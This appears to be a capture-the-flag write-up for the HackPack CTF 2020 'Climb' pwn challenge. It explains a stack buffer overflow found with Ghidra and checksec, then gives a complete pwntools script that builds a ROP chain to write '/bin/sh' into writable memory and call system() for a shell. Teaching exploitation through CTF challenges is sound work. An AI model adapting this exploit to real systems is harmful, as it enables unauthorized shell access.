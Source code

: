 <h1>Climb</h1>
<h2>HackPack CTF 2020 PWN</h2>

<h3>Problem:</h3>
"Can you help me climb the rope?"

<h3>Solution:</h3>
Based on the problem, the first thing we are looking for is a buffer overflow vulnerability that can allow us to ROP.

After looking at the binary through Ghidra, we notice that main reads 500 bytes into a 32 byte variable.

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/main.PNG)

We can take a look with checksec and we get:

![image of checksec](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/checksec.PNG)

So we have no canary to worry about, and no PIE so we can hard code function addresses, and system() is already resolved for us in the binary, so there is no need to ret to libc.

First, since system() requires a pointer loaded on the RDI we need to write to a memory address that we can call later.  Using vmmap with pwndbg we can see that the range 0x601000 to 0x602000 is set for both read and write.

![image of checksec](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/vmmap.PNG)

Looking in Ghidra the higher areas of that should not be used so I chose (0x601fb0).

Next we need to be able to write to that area.  We can use ROPgadget > dump.txt to browse through all the available gadgets and build a ROP chain, here is a good one:

0x000000000040065d : mov qword ptr \[rdx\], rax ; ret

will allow us to write from the rax to the location on the rdx.

The only thing left is to build the payload.  Below is the exploit code I used:

```Python3
from pwn import *

target = './climb'

context.update(terminal = ['tmux','splitw'])

#==========================================================
#           CODE
#==========================================================

p = process(target)

#p = remote('cha.hackpack.club',41702)

sh = b'/bin/sh\0'
sh = int.from_bytes(sh, byteorder='little')

#gdb.attach(p)

pl = p64(0x4141414141414141) * 5    # padding to ret addr
pl += p64(0x40064b)                 # pop rax
pl += p64(sh)                       # /bin/sh into rax
pl += p64(0x400654)                 # pop rdx
pl += p64(0x601fb0)                 # address on data
pl += p64(0x40065d)                 # writes rax to address on rdx
pl += p64(0x400743)                 # pop rdi
pl += p64(0x601fb0)                 # address in data
pl += p64(0x400530)                 # call system()

print(p.recvuntil('respond?'))
p.send(pl)
p.interactive()
```
